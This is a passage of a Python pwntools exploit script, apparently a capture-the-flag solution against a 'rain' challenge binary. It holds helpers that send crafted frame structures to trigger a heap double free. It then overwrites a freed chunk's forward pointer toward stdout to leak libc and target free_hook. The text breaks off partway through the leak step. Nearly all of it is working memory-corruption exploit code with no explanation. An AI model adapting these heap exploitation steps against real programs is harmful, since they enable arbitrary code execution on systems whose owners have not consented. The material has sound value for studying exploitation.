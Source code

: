 ```python


def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def irt(): return p.interactive()
def dbg(text=None): return gdb.attach(p, text)


def lg(s, addr): return log.info(
    '\033[1;31;40m %s => 0x%x \033[0m' % (s, addr))


def lg(s): return log.info('\033[1;31;40m %s => 0x%x \033[0m' % (s, eval(s)))
def uu32(data): return u32(data.ljust(4, '\x00'))
def uu64(data): return u64(data.ljust(8, '\x00'))

def Start_rain():
    p.sendlineafter("ch> ", "3")
    p.recvuntil("\n")

def printInfo():
    p.sendlineafter("ch> ", "2")

def Frame(height, width, font_color, back_color, rainfall, table):
    frame = p32(height)  # 4
    frame += p32(width)  # 4
    frame += p8(font_color)  # 1
    frame += p8(back_color)  # 1
    frame += p32(rainfall)  # 4
    frame += p32(0xbabeface)  # 14+4=18=> 0x12
    frame += table
    return frame


def Config(frame):
    p.sendlineafter("ch> ", "1")
    p.sendafter("FRAME> ", frame)



def double_free():
    # 1 --realloc userchunk
    frame1 = Frame(0x30, 0x30, 3, 4, 1, b'a'*0x20)
    Config(frame1)

    # 2 --free
    frame2 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame2)

    # 3 --double free
    frame3 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame3)


def leak_info():
    global libc_base
    global free_hook

    # 4 --modify fd
    fake_fd = p64(0x603000) + b'b'*(0x20-0x8)   # IO_stdout
    frame4 = Frame(0x30, 0x30, 3, 4, 1, fake_fd)    # size(Frame) = 0x12
    Config(frame4)

```
